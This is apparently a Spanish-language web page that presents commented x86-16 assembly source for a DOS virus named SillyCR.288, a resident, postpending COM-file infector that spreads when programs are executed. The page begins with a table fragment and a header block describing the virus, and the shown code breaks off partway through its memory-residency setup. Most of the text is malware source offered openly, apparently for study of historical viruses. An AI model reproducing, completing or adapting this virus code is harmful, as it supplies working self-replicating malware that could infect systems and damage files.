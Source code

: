     <td>Éxito: CF = 0 <br/>Error: CF = 1, AX = código de error, BX = cantidad máxima disponible</td>
    <td>2+</td> 
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;##############################################################################
;# Nombre:        virus://DOS/SillyCR.288
;# Plataforma:    Intel x86
;# SO:            DOS v2.0+
;# Lenguaje:      ASM x86-16 (sintaxis Intel)
;# Herramientas:  TASM v4.1, TLINK v7.1.30
;# Tipo:          Postpending, Resident, COM infector
;# Tamaño:        288 bytes
;# Propagación:   En archivos COM antes de ser ejecutados (INT 21h - AH=4B).
;# Infección:     Postpending en archivos COM (no READ-ONLY).
;# Residente:     Si. En el tope de memoria convencional (0-640KB).
;# Stealth:       No
;# Payload:       No
;##############################################################################

.8086
.model tiny

assume cs:virus, ds:virus

V_OFFSET equ 0 - 100h - 8                            ; offset base para direccionamiento en el segmento viral 

virus segment byte public 'CODE'

    org 100h

start:    
    jmp short body                                   ; cabezal, en las siguientes generaciones aquí
    nop                                              ; habrá un near JMP de 3 bytes
    db  'V'                                          ; firma viral

    mov ah, 00h                                      ; / huésped dummy, solo retorna a DOS
    int 21h                                          ; \

body:    
    call d_offset                                    ; calcular delta offset

d_offset:    
    pop bp
    sub bp, offset d_offset              
    
    mov ax, 0ABCDh                                   ; | AX = 0ABCDh
    int 21h                                          ; |_DOS API - Llamar servicio de reconocimiento del virus
    
    cmp ax, 029Ah                                    ; verificar código de respuesta
    je  run_host                                     ; si es 666 (29Ah), ejecutar huésped
    
    mov ah, 4Ah                                      ; | AH = 4Ah
    mov bx, 0FFFFh                                   ; | BX = cantidad ridícula de memoria
    int 21h                                          ; |_DOS API - Modificar asignación de memoria
                                                     ;             BX = cantidad máxima disponible
 
    mov ah, 4Ah                                      ; | AH = 4Ah
    sub bx, ((ALLOC_SIZE + 15) / 16) + 1             ; | BX = BX menos la memoria que requiere el virus + 1, en párrafos
    int 21h                                          ; |_DOS API - Modificar asignación de memoria                                            

    mov ah, 48h                                      ; | AH = 48h